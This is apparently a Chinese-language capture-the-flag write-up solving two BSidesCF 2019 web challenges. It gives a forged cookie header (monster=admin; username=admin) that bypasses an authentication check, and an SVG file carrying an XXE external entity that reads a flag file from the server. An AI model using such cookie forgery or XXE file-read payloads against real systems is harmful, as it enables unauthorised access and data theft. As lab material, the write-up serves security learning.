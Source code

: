 ## [BSidesCF 2019]Kookie

根据提示构造cookie

```
Cookie:monster=admin
```

![image-20210831153734100](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210831153734100.png)

看到这个还有个username

再构造一个

```
Cookie:monster=admin;username=admin
```

![image-20210831153610575](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210831153610575.png)

## [BSidesCF 2019]SVGMagic

![image-20210831155706674](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210831155706674.png)

svg用了xml来描述图形，那么这里是不是存在着一个xxe

根据svg的语法写一个svg文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

![image-20210831161523250](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210831161523250.png)

